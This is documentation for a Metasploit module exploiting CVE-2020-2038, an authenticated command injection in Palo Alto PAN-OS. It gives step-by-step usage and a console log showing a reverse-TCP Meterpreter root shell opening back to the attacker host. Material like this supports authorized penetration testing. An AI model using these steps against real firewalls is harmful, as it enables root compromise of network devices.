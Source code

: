 ## Vulnerable Application

This module exploits CVE-2020-2038, an authenticated OS Command Injection vulnerability in PAN-OS versions < 10.0.1,
< 9.1.4 and <9.0.10 that allows authenticated administrators to execute arbitrary OS commands with root privileges. The
Rest API allows authenticated users to send operational mode commands via the "op" request. Insufficient filtering of
user inputs in the "op" request allows an attacker to inject commands.

A Palo Alto Firewall demo VM can be requested at the following
[link](https://www.paloaltonetworks.com/company/request-demo). PAN‑OS is the software that runs all Palo Alto Networks
next-generation firewalls. PAN-OS will be running on the VM by default. The only setup necessary should be setting the
administrator password.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/panos_auth_rce`
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### PAN-OS 10.0.0
```
msf > use linux/http/panos_auth_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/panos_auth_rce) > set rhosts 192.168.2.196
rhosts => 192.168.2.196
msf exploit(linux/http/panos_auth_rce) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/panos_auth_rce) > set PASSWORD N0tpassword!
PASSWORD => N0tpassword!
msf exploit(linux/http/panos_auth_rce) > run

[*] Started reverse TCP handler on 192.168.2.114:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating...
[+] Successfully obtained api key
[+] The target is vulnerable.
[*] Exploiting...
[*] Sending stage (989032 bytes) to 192.168.2.196
[*] Meterpreter session 1 opened (192.168.2.114:4444 -> 192.168.2.196:52592) at 2022-08-17 16:13:19 -0400
[*] Command Stager progress - 100.00% done (1111/1111 bytes)

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : PA-VM-10-0-0.home
OS           : Red Hat  (Linux 3.10.0-957.21.3.10.pan.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
